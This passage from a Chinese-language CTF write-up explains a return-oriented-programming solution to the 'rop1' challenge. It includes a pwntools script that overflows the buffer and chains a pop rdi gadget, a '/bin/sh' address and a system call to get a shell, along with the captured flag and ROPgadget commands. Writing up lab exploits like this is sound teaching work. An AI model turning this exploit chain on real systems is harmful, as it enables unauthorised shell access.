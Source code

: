 于是我们就成功得到了**改变rdi寄存器的gadget的地址**

接下来我们就可以构造payload了

```
from pwn import *
p = process('rop1')

pop_rdi = p64(0x400933)
sh_addr = p64(0x601070)
call_sys = p64(0x4007df)

payload = b'A'*136 + pop_rdi + sh_addr + call_sys

p.recv()
p.sendline(payload)
p.interactive() 
```

连接服务器，使用我们的payload来getshell

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-8cpZDjgz-1605852471165)(https://i.loli.net/2020/08/06/yPLIicR9daTVWB8.png)]

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-ZIW106n1-1605852471167)(https://i.loli.net/2020/08/06/1fT5rBh23v6sayX.png)]

得到flag

```
moectf{67d14388-9052-4182-869c-5e5f0cdac4e5} 
```

> 注：也可以使用工具`ROPgadget`来寻找gadget
> 
> Linux下，上面寻找gadget的步骤也可以如下：
> 
> ```
> $ ROPgadget --binary rop1 --string '/bin/sh' 
> ```
> 
> ![image.png](img/587c0bf5d8ca7799cc904ef3be0d9d6d.png)
> 
> ```
> $ ROPgadget --binary rop1 --only 'pop|ret' 
> ```
> 
> [外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-npDmpaTd-1605852471170)(https://i.loli.net/2020/08/06/tLToxVk8Cz19ARP.png)]

> 参考资料：https://www.cnblogs.com/ichunqiu/p/9288935.html
